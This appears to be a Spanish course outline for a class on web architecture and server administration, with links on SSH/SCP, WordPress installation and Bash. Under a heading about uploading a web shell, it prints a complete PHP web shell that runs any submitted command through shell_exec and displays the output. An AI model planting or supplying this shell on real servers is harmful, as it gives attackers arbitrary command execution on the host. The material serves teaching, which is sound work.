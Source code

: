 # Implantación de arquitecturas web:
- Arquitecturas web. Modelos.
- Servidores web. Instalación y configuración básica.
  - Conexión SSH y SCP.
- Servidores de aplicaciones. Contenedores. Instalación y configuración básica.
- Estructura y recursos que componen una aplicación web. Descriptor de despliegue.
  - El descriptor del despligue indica cómo desplegar una aplicación.

## Crear fichero upload (por SSH o SCP)
* https://www.jesusninoc.com/06/12/crear-un-formulario-en-html-y-un-fichero-en-php-que-permita-subir-una-imagen-o-fichero-o-lo-que-sea-a-un-servidor-web/

## Subir una Webshell (por SSH o SCP)

## Webshell
```PHP
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<!-- By Artyum (https://github.com/artyuum) -->
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            border-radius: 5px;
        }

        pre,
        input,
        button {
            background-color: #efefef;
        }

        label {
            display: block;
        }

        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        pre,
        input,
        button {
            padding: 10px;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
```

-----------
-----------

# Administración de servidores web:
- Configuración avanzada del servidor web.
- Módulos: instalación, configuración y uso.
- Hosts virtuales. Creación, configuración y utilización.
- Autenticación y control de acceso.
- El protocolo HTTPS.
- Certificados. Servidores de certificados.
- Empaquetado de aplicaciones web.
- Despliegue de aplicaciones sobre servidores web.

---------------

# Install Dependencies
* https://ubuntu.com/tutorials/install-and-configure-wordpress#2-install-dependencies

# Install WordPress
* https://ubuntu.com/tutorials/install-and-configure-wordpress#3-install-wordpress

# Repaso de Linux
* https://www.jesusninoc.com/02/03/curso-de-bash-scripting-con-ejemplos/
* https://github.com/jesusninoc/Bash/blob/master/Introduccion/EjemplosIntroducci%C3%B3n.sh
* https://github.com/jesusninoc/Bash/blob/master/Introduccion/EjemplosOperacionesCadenas.sh
* https://github.com/jesusninoc/Bash/tree/master/Examenes
* https://github.com/jesusninoc/ClasesISO/blob/master/2019-10-15.md
* https://github.com/jesusninoc/Bash/tree/master/Permisos
* https://github.com/jesusninoc/Bash/tree/master/Ficheros
* https://github.com/jesusninoc/Bash/tree/master/Repaso
* https://github.com/jesusninoc/Bash/tree/master/Monitorizacion
* https://github.com/jesusninoc/Bash

# Visto
- Scripts interesantes https://github.com/jesusninoc/Scripts
- Comilla violenta
